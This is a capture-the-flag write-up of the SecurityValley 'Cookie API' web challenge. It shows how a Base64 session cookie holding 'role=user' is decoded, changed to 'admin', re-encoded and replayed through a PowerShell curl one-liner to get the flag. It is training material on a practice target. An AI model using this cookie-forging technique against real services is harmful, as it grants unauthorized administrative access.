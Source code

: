 ```yaml
---
title: SecurityValley - Cookie API
date: Mon Jul  3 01:03:02 AM +04 2023
categories: [Writeup]
tags: [ctf,securityvalley,web]
---
```


## Desciption
 
Lvl: 1 Score: 15 Category: web

This API here has a strange behavior. The endpoint `/api/v1/init` produces cookies. Ok! The `/api/v1/store` endpoint likes to eat cookies. LOL. Can you make it like your cookie too?

## Analysis

Sending get request to `init` doesn't give us any results, but if we look in header we can see that Cookie is being set which expires in ~1 second.

```powershell
➜ $API="http://pwnme.org:8888/api/v1"

➜ curl "$API/init"

➜ curl -sS -D - "$API/init"
HTTP/1.1 200 OK
Set-Cookie: session_token=cm9sZT11c2VyJmlkPW9vcXI0R0VCRThWWlByZDFBbk5SMmlIbFRvMDlOU2py; Expires=Sun, 02 Jul 2023 21:16:05 GMT; Secure 
Date: Sun, 02 Jul 2023 21:16:04 GMT # Request send time
Content-Length: 0
```

Cookie is in Base64 format and if we decode it we get raw cookie values.

```powershell
➜ [System.Text.Encoding]::UTF8.GetString(
    [System.Convert]::FromBase64String(
        "cm9sZT11c2VyJmlkPUxVRm1hdVdvaU5USUgwUnFEUjZTb2Fsbm0wRWMzV2tD"
    )
)
role=user&id=LUFmauWoiNTIH0RqDR6Soalnm0Ec3WkC
```

To solve the challenge we must be admin. To become admin we must forge new cookie by modifing the cookie we get and all in 1 second.

## Solution

Process ==> Get Cookie -> Decode Base64 -> Become admin -> Encode Cookie -> curl `/store` -> Profit.

For the kicks I created powershell one liner.

```powershell
curl -sS -D - "$API/init"  |                                       # 1. Get Header
sls "session_token=(.*?);" |                                       # 2. Grab Cookie
% {                                                                # 3. For Loop "grep" Objects
  curl "$API/store" -b "session_token=$(                           # 8. Profit
    [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes(      # 7. Encode Cookie Back To Base64
      [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String( # 5. Decode Cookie From Base64 
        $_.Matches.groups[1].Value                                 # 4. Get RegEx Match (The Cookie)
    )).replace("user", "admin"))                                   # 6. Change user To admin
  ))"
}
SecVal{REDACTED}
``` 